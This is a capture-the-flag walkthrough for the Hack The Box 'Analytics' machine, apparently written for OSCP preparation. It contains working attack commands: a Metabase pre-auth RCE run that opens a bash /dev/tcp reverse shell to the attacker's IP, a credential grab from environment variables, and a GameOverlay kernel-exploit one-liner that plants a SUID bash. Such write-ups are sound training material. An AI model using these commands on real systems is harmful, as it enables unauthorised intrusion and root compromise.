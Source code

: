 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🔍 Phase 1: Scanning & Enumeration

```bash
ping <Analytics IP Address>                              # Confirm host is live (TTL hints Linux OS)
sudo nmap -T4 -A -p- <Analytics IP Address>              # Aggressive full-port scan
nano /etc/hosts                                          # Add domain mapping to access site
# Example entry:
# <Analytics IP Address> analytical.htb data.analytical.htb
```

> Discovered Metabase login at `http://data.analytical.htb`.

---

## 🚪 Phase 2: Exploitation & User Flag

### 🔍 Recon & CVE Identification

**CVE Used:** [CVE-2023-38646 - Metabase Pre-Auth RCE](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

```bash
# Get setup-token by visiting:
http://data.analytical.htb/api/session/properties
```

### 📡 Reverse Shell Setup

```bash
sudo nc -nlvp 4444                                      # Start listener on attacker machine

# Run exploit (Python PoC):
python3 main.py -u http://data.analytical.htb -t <token> -c "bash -i >& /dev/tcp/<Your IP>/4444 0>&1"
```

> Gained reverse shell as `metabase`.

### 🔑 [Horizontal Privilege Escalation](SSH)

```bash
env                                                    # Check for credentials in environment variables
ssh metalytics@<Analytics IP Address>                  # SSH into 'metalytics' using found creds
```

### 🧾 User Flag

```bash
cat /home/metalytics/user.txt
```

> Submit the user flag!

---

## 🛠️ Phase 3: Persistence & Root Flag

### 🔍 Manual Enumeration

```bash
id                                                     # Check privileges
mkdir /opt/utkarshcodes                                # Check write access to /opt (denied)
find / -type f \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null   # SUID/GUID files
cat /proc/version                                      # Get OS version to identify kernel-level exploits
```

> Identified vulnerable kernel version: Ubuntu 22.04.2

### 💣 Exploitation

**CVE Used:**  
- [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)  
- [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

```bash
# Execute GameOverlay exploit (one-liner):
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

> Root shell achieved via kernel exploit.

### 🔐 Root Flag

```bash
cat /root/root.txt
```